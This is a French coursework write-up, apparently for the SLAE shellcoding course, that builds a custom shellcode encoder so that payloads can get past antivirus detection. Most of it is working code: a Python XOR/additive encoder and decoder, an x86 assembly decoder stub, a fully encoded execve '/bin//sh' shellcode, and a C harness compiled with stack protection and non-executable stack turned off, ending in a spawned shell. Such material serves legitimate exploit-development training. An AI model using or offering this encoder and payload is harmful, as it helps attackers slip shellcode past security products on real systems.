


# Assignment 4 #

L'objectif de cet exercice est de créer un "custom shellcode encoder "et d'encoder un shellcode. Nous prenons le shellcode developpé dans la premire exercice.

L'encodage permet d'apporter un moyen de contourner les systèmes de detection des AV.

## Principe d'encodage ##
<a href="../assets/images/encode1.png"></a>
<a href="../assets/images/encode2.png"></a>
## Code ##

```c
#!/usr/bin/python

# Encoder / Decoder from Assignement 6
# SLAE
# Author : Alain Menelet


import random
import argparse

def main():
    parser = argparse.ArgumentParser(prog='Encoder Python SLAE', description="Encoder shellcode")
    parser.add_argument('-s', dest="shellcode",type=str, help="shellcode", required=True)
    parser.add_argument('-a', dest="action", default="encode", help="encode or decode")
    args = parser.parse_args()


    if args.action == "encode":
        encode(args.shellcode)
    elif args.action == "decode":
        decode(args.shellcode)
    else:
        print "erreur dans la saisie de l'action"


def clear(shellcode):
    return shellcode.replace('\\x','')


def encode(shellcode):
    """
    Encode the shellcode
    :param shellcode: string
    :return:
    """
    encoded = ""
    shell = bytearray.fromhex(clear(shellcode))
    for i in range(0,len(shell) - 1, 2):
        temp = random.randint(1, 10)
        while (((shell[i] ^ shell[i+1]) + temp >= 0xff) or (shell[i] ^ shell[i+1]) + temp == 0):
            temp = random.randint(1, 10)

        encoded += '\\x%02x' % temp
        encoded += '\\x%02x' %((shell[i] ^ shell[i+1]) + temp)
        encoded += '\\x%02x' % (shell[i+1] + temp)

    if (len(bytearray(shell)) % 2):
        while (shell[-1] == temp and (shell[-1] ^ temp == 0)):
            temp = random.randint(1, 10)
        encoded += '\\xFF'
        encoded += '\\x%02x' % temp
        encoded += '\\x%02x' % (shell[-1] ^ temp)

    print 'Taille %d' % len(bytearray(shell))
    print encoded


def decode(shellcodeEncoded):
    """
    Decode the shellcode
    :param shellcodeEncoded: string
    :return:
    """
    shellD = bytearray.fromhex(clear(shellcodeEncoded))
    decoded = ""

    for i in range(0, len(bytearray(shellD))-3,3):
        ran = shellD[i]
        decoded += '\\x%02x' % ((shellD[i + 1] - ran) ^ (shellD[i + 2]-ran))
        decoded += '\\x%02x' % (shellD[i + 2] - ran)

    if shellD[-3] == 255:
        decoded += '\\x%02x' % (shellD[-1] ^ shellD[-2])
    else:
        ran = shellD[-3]
        decoded += '\\x%02x' % ((shellD[-2] - ran) ^ (shellD[-1] - ran))
        decoded += '\\x%02x' % (shellD[-1] - ran)


    print 'Taille %d' % len(bytearray(decoded))
    print decoded


if __name__=='__main__':
    main()


```

Ci-dessous le décodeur :

```c
; decode 
; author: Xophidia


global _start

section .text

_start:
	jmp short Shellcode

decoder:
	pop esi
	push esi
	mov edi, esi
	xor ecx,ecx
	mul ecx	
	
	mov cl, 0x17
	
	 ; Initialisation des variables

_:	
	xor eax, eax
	xor ebx, ebx
	xor edx, edx

	mov byte al, [edi]	
	cmp al, 0xff
	jz impair	

	mov byte dl, [edi+1]	
	sub dl, al		
	mov byte bl, [edi+2]	
	sub bl, al		
	xor dl, bl		  
	mov [esi], dl	
	mov [esi+1], bl
	inc esi
	inc esi
	inc edi
	inc edi
	inc edi

	loop _
	jmp short final
	
impair:
	mov byte bl, [edi+1]
	mov byte dl, [edi+2]
	xor bl, dl
	mov [esi], bl

final:
	call [esp]			

Shellcode:
	call decoder
	shell: db 0x03,0xfb,0xcc,0x04,0x1a,0xe5,0x03,0x45,0xce,0x05,0x2e,0xb5,0x02,0x6b,0xcf,0x01,0x78,0xf8,0x08,0xb8,0x59,0x0a,0x51,0x39,0x0a,0x66,0x7d,0x03,0x03,0x6b,0x03,0x50,0x65,0x06,0x0d,0x74,0x06,0x70,0xe9,0x0a,0xe2,0x93,0x08,0xb9,0x5b,0x03,0x6b,0xe4,0x02,0xbd,0x0d,0x09,0x56,0x89

```


## Exemples ##

### Encodage ###

```c
usage: Encoder Python SLAE [-h] -s SHELLCODE [-a ACTION]

Encoder shellcode

optional arguments:
  -h, --help    show this help message and exit
  -s SHELLCODE  shellcode
  -a ACTION     encode or decode
```

Nous executons le programme :

```c
main.py -s 
"\x31\xc9\xf7\xe1\x89\xcb\x99\xb0\xa4\xcd\x80\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
-a encode
```

Et nous obtenons la version encodé de notre shellcode

```c
"\xeb\x40\x5e\x56\x89\xf7\x31\xc9\xf7\xe1\xb9\x17\x31\xc0\x31\xdb\x31\xd2\x8a\x07\x3c\xff\x74\x1a\x8a\x57\x01\x28\xc2\x8a\x5f\x02\x28\xc3\x30\xda\x88\x16\x88\x5e\x01\x46\x46\x47\x47\x47\xe2\xdc\xeb\x0a\x8a\x5f\x01\x8a\x57\x02\x30\xd3\x88\x1e\xff\x14\x24\xe8\xbb\xff\xff\xff\x03\xfb\xcc\x04\x1a\xe5\x03\x45\xce\x05\x2e\xb5\x02\x6b\xcf\x01\x78\xf8\x08\xb8\x59\x0a\x51\x39\x0a\x66\x7d\x03\x03\x6b\x03\x50\x65\x06\x0d\x74\x06\x70\xe9\x0a\xe2\x93\x08\xb9\x5b\x03\x6b\xe4\x02\xbd\x0d\x09\x56\x89";
```

### decodage python ###

```c
-s
"\xeb\x40\x5e\x56\x89\xf7\x31\xc9\xf7\xe1\xb9\x17\x31\xc0\x31\xdb\x31\xd2\x8a\x07\x3c\xff\x74\x1a\x8a\x57\x01\x28\xc2\x8a\x5f\x02\x28\xc3\x30\xda\x88\x16\x88\x5e\x01\x46\x46\x47\x47\x47\xe2\xdc\xeb\x0a\x8a\x5f\x01\x8a\x57\x02\x30\xd3\x88\x1e\xff\x14\x24\xe8\xbb\xff\xff\xff\x03\xfb\xcc\x04\x1a\xe5\x03\x45\xce\x05\x2e\xb5\x02\x6b\xcf\x01\x78\xf8\x08\xb8\x59\x0a\x51\x39\x0a\x66\x7d\x03\x03\x6b\x03\x50\x65\x06\x0d\x74\x06\x70\xe9\x0a\xe2\x93\x08\xb9\x5b\x03\x6b\xe4\x02\xbd\x0d\x09\x56\x89" -a decode
````

```c
"\x31\xc9\xf7\xe1\x89\xcb\x99\xb0\xa4\xcd\x80\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

## Compilation ##

```c
#include <stdio.h>
#include <string.h>


unsigned char code[] = \
"\xeb\x40\x5e\x56\x89\xf7\x31\xc9\xf7\xe1\xb9\x17\x31\xc0\x31\xdb\x31\xd2\x8a\x07\x3c\xff\x74\x1a\x8a\x57\x01\x28\xc2\x8a\x5f\x02\x28\xc3\x30\xda\x88\x16\x88\x5e\x01\x46\x46\x47\x47\x47\xe2\xdc\xeb\x0a\x8a\x5f\x01\x8a\x57\x02\x30\xd3\x88\x1e\xff\x14\x24\xe8\xbb\xff\xff\xff\x03\xfb\xcc\x04\x1a\xe5\x03\x45\xce\x05\x2e\xb5\x02\x6b\xcf\x01\x78\xf8\x08\xb8\x59\x0a\x51\x39\x0a\x66\x7d\x03\x03\x6b\x03\x50\x65\x06\x0d\x74\x06\x70\xe9\x0a\xe2\x93\x08\xb9\x5b\x03\x6b\xe4\x02\xbd\x0d\x09\x56\x89";

int main()
{

        printf("taille %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

        return 0;

}

gcc -fno-stack-protector -z execstack test_shellcode.c -o test_shellcode
```

Enfin nous testons le tout :

```c
./test_shellcode
$
````
